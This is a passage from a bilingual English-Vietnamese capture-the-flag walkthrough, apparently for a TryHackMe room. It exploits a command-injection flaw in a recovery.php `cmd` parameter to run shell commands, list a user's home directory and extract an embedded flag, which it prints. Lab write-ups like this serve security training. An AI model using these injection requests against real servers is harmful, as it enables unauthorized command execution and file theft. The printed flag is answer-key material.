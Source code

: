 
## 6. Command Injection (Lỗi Command Injection)

### Step 6.1 — Test for RCE

The recovery page has a parameter `?cmd=`. Try:

```
http://<TARGET>:22/recovery.php?cmd=whoami
```

You should see `www-data`.

➡️ **Explanation:** This is Remote Command Execution (RCE). The input is directly passed to a shell without sanitization. (Ứng dụng dính lỗi RCE do lấy input và chạy thẳng trên shell.)

---

## 7. Finding the User Flag (Tìm user flag)

### Step 7.1 — List Jack’s home directory

```
http://<TARGET>:22/recovery.php?cmd=ls%20-la%20%2Fhome%2Fjack
```

Result: shows `user.jpg`.

➡️ **Explanation:** Flags are often hidden in `/home/<user>/`. (Flag user thường nằm trong thư mục home của user.)

### Step 7.2 — Inspect the file directly with strings

```
http://<TARGET>:22/recovery.php?cmd=strings%20%2Fhome%2Fjack%2Fuser.jpg
```

Output: contains something like:

```
THM{securi-tay2020_{p3ngu1n-hunt3r-3xtr40rd1n41r3}}
```

➡️ **Explanation:** The flag is embedded in the image binary, readable with `strings`. (Flag được nhúng trong file ảnh, lệnh strings trích ra được.)

### Step 7.3 — Safer method: base64 the file

```
http://<TARGET>:22/recovery.php?cmd=base64%20%2Fhome%2Fjack%2Fuser.jpg
```

Then:

```bash
curl -s "http://<TARGET>:22/recovery.php?cmd=base64%20%2Fhome%2Fjack%2Fuser.jpg" > user.jpg.b64
base64 -d user.jpg.b64 > user.jpg
xdg-open user.jpg
```
